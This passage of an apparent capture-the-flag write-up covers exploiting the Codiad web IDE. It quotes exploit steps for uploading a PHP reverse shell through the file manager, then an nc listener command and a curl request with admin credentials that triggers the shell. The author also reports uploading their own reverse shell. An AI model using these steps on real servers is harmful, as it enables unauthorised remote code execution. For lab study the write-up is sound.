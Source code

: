 ```
#                                                                                                   #
#   2- go to themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/" directory #
#                                                                                                   #
#   3-  right click and select upload file                                                          #
#                                                                                                   #
#   4- click on "Drag file or Click Here To Upload" and select your reverse_shell file              #
#                                                                                                   #
###################-------------------------#########################-------------###################

   after that your file should be in INF directory, right click on your file and select delete,

   and you will see the full path of your file

   run it in your terminal with "curl" and boom!!

/var/www/html/codiad/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/shell.php

1 -  # nc -lnvp 1234
2 - curl http://target_ip/codiad/themes/default/filemanager/images/codiad/manifest/files/codiad/example/INF/shell.php -u "admin:P@ssw0rd"
```

So we should be able to upload a reverse shell file inside the Codiad software projects page and then get the webserver to run it for us.

I try and figure out how to change over to the directory they list and wasn't successful within the Codiad software, but it does work in a web browser, so I was probably doing something wrong.

I was however able to just right click the existing project and choose Upload Files to get my p.php reverse shell on the system:

![](images/ide8.png)